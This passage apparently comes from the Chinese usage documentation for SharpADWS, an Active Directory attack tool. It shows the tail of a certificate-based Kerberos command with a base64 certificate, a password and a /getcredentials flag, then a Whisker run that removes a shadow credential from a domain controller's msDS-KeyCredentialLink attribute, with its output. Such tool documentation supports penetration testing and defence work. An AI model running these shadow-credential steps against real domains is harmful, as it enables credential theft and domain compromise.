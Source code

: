 ```powershell
      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 /password:"Passw0rd" /domain:cor
      p.local /getcredentials /show

```

此外，通过 `remove`，您可以提供 `-device-id` 将指定的 Key 从目标对象的 `msDS-KeyCredentialLink` 属性中移除：

```powershell
C:\Users\Marcus>SharpADWS.exe Whisker -action remove -target DC01$ -device-id c9fdae6b-f6a1-4880-a498-6dc89814e596

[*] Found value to remove
[*] msDS-KeyCredentialLink value has been removed:
[*]     DeviceID: c9fdae6b-f6a1-4880-a498-6dc89814e596    Creation Time: 2/13/2024 7:43:49 PM

```
